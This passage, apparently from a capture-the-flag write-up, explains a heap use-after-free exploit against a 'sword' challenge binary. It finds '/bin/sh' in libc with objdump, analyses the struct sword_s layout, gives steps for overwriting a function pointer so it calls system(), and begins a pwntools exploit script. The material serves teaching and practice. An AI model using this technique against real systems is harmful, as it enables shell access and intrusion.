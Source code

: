 ```
$ objdump -s -j .rodata libc.so.6 | grep "/bin/sh"
 18cd50 6c2e6300 2d63002f 62696e2f 73680065  l.c.-c./bin/sh.e
```
{:.contains-term}

Yup, there it is, offset `0x18cd57` of libc.

Ok, well, we already know we can force the program to free a `struct sword_s` that is still marked as in use. What you need to figure out is how can you allocate that chunk and fill with data that would give you a shell. Start with examining the `struct sword_s` layout:

```c
struct sword_s { // 24 bytes + 8 byte padding = 32 bytes - chunk of size 48 (0x30) (fastbin)
	int name_len;
	int weight;
	
	char *sword_name;
	void (*use_sword)(char *ptr);
	int is_hardened;
};
```

Here, the compiler has chosen that this structure should have a size of 32 bytes, even though all the fields could fit in 28 bytes (`3*4 + 2*8`). This is essentially due the preferred alignment of the struct (the pointers should be 8 byte aligned), so 4 bytes of padding is tacked on to the end. If the struct itself is 32 bytes, then `malloc(sizeof(struct sword_s))` is the same as `malloc(32)`, and will allocate a chunk that is at least 32 + 8 (chunk header) bytes. Since all chunks are 16 byte aligned, it will actually use a chunk that is 48 bytes (instead of 40).

If you were to create a name to occupy that same chunk, it would need to be at least 24 chars long (plus a NULL char at the end to make 25 - if you add in a chunk header, that requires 33 bytes, which will get rounded to 48 bytes after 16 byte alignment). If you wanted to overwrite the function pointer and launch a shell, then the first 8 bytes don't really matter, but the next 8 bytes should be the pointer to "`/bin/sh`", and the 8 bytes after that should be the pointer to `system()`.

Consider taking these steps after leaking libc to achieve a shell:

1. Harden sword #0, reserving space for 300 chars - this will error out and free the sword structure but keep the sword marked as "in-use"
2. Harden sword #1, reserve space for 24-39 chars - use bytes that emulate a `struct sword_s`, but point `sword_name` at the address of "`/bin/sh`", and `use_sword` at the address of `system()`
3. Equip sword #0 - this will call the function pointer in the re-used chunk that now points at `system()` with the argument of the `sword_name` that now points at "`/bin/sh`".


Here it is all together, but using `pwntools`:

```python
#!/bin/env python3

from pwn import *

def parse(str):
    return u64(str.ljust(8,'\0'))

def echo(str):
    print(str)
    p.sendline(str)
    _ = "".join(map(chr, p.recvline(timeout=2))).rstrip()
    print(_)
    return _

def wait_prompt():
    print("".join(map(chr, p.recvuntil("7. Quit.\n"))).rstrip())

def forge():
    wait_prompt()
    echo("1")
```